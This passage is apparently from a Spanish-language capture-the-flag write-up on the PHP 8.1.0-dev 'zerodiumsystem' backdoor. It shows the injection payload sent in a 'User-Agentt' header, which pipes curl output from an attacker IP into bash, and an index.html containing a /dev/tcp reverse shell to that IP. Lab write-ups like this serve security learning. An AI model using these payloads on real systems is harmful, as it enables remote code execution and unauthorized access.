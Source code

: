 ```bash
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 31458  bytes 3331239 (3.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 31458  bytes 3331239 (3.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Vamos a examinar a bajo nivel que hace este exploit: en este [post](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) nos explica todo acerca de la vulnerabilidad.

Vemos que a través del User-Agent podemos usar el parámetro `zerodiumsystem` para inyectar comandos en el sistema, de esta forma:

![Untitled](/assets/images/Knife/Untitled%201.png)

# GANANDO ACCESO

Vamos a ganar acceso a la maquina:

Nos creamos un archivo llamado `index.html` , nos compartimos un servidor http con python y en la petición get de `burpsuite` enviamos el siguiente User-Agent:

 `User-Agentt: zerodiumsystem("curl http://10.10.16.198|bash");`

```bash
❯ cat index.html
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.198/443 0>&1
```
